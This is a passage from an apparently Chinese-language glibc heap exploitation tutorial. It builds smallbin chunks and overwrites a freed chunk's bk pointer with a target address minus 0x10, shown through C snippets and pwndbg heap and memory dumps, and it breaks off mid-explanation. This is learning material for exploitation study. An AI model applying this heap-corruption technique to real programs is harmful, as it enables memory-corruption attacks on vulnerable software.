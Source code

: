 接着重复这个步骤，在构造一个进入smallbin的chunk。

```
printf("Repeat the above steps, and free another chunk into corresponding smallbin\n");
    printf("A little difference, notice the twice pad chunk size must be larger than 0x60, or you will destroy first chunk in smallbin[4]\n");
    s2 = malloc(0x420);
    pad = malloc(0x80); //防止合并的pad chunk，其必须大于0x60
    free(s2);
    malloc(0x3c0);
    malloc(0x100);
```

```
pwndbg&gt; heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55555555a030 (size : 0x1ffd0) 
       last_remainder: 0x555555559e30 (size : 0x60) 
            unsortbin: 0x0
(0x060)  smallbin[ 4]: 0x555555559e30  &lt;--&gt; 0x5555555598c0
(0x60)   tcache_entry[4](6): 0x5555555594a0 --&gt; 0x555555559440 --&gt; 0x5555555593e0 --&gt; 0x555555559380 --&gt; 0x555555559320 --&gt; 0x5555555592c0
```

可以看到已经完成构造了。接着进行change 0x555555559e30 的bk为目标地址-0x10。

```
*(uint64_t*)((s2+0x3c0)+0x18) = (uint64_t)(&amp;victim)-0x10;
```

原始：

```
pwndbg&gt; x/30gx 0x555555559e30
0x555555559e30: 0x0000000000000000      0x0000000000000061
0x555555559e40: 0x00005555555598c0      0x00007ffff7fb9c30
```

change 后：

```
pwndbg&gt; x/30gx 0x555555559e30
0x555555559e30: 0x0000000000000000      0x0000000000000061
0x555555559e40: 0x00005555555598c0      0x0000555555558040
0x555555559e50: 0x0000000000000000      0x0000000000000000
```

再看下即将被calloc申请到的smallbin：
